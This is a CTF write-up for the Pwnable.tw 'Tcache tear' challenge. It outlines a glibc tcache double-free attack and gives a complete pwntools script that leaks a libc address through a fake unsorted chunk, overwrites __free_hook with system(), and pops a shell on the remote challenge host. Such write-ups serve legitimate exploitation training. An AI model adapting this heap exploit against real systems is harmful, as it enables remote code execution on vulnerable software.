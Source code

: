 # Pwnable.tw - Tcache tear

* Website : Pwnable.tw
* Challenge : Tcache tear
* Writeup author : Redhung aka r3dhun9
>Contact :[Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)

## 0x00
1. **Build a fake unsorted chunk and free it to get the libc address.**
2. **Overwite the free_hook to the system() and then malloc a space of string('/bin/sh'), by doing so, we can pop out a shell.**
3. ***__malloc_hook (sizet, const void )***
4. ***__free_hook (void*, const void *)***

## 0x01
Exploit:
```python
from pwn import *

#r = process("./tcache_tear")
r = remote("chall.pwnable.tw", 10207)

def name(name):
    r.recvuntil(':')
    r.sendline(name)

def malloc(size, data):
    r.recvuntil(':')
    r.sendline('1')
    r.recvuntil(':')
    r.sendline(size)
    r.recvuntil(':')
    r.sendline(data)

def free():
    r.recvuntil(':')
    r.sendline('2')

def info():
    r.recvuntil(':')
    r.sendline('3')
    info = r.recvuntil('Tcache')
    return info

def main():
    name('123')
    malloc('10', 'aaaa')
    free()
    free()
    malloc('10', p64(0x602050))
    malloc('10', 'aaaa')
    malloc('10', p64(0x0) + p64(0x421) + p64(0x0)*5 + p64(0x602060) + p64(0x0)*125 + p64(0x21) + p64(0x0)*3 + p64(0x21))
    free()
    leak = info()
    main_arena = u64(leak[6:14])
    system = main_arena - 0x39c860 
    free_hook = main_arena + 0x1c48
    print("main_arena: " + hex(main_arena))
    print("free_hook: " + hex(free_hook))
    print("system: " + hex(system))
    malloc('50', 'aaaaaaaa')
    free()
    free()
    malloc('50', p64(free_hook))
    malloc('50', 'aaaaaaaa')
    malloc('50', p64(system))
    malloc('50', '/bin/sh')
    free()
    r.interactive()

if __name__ == '__main__':
    main()
```
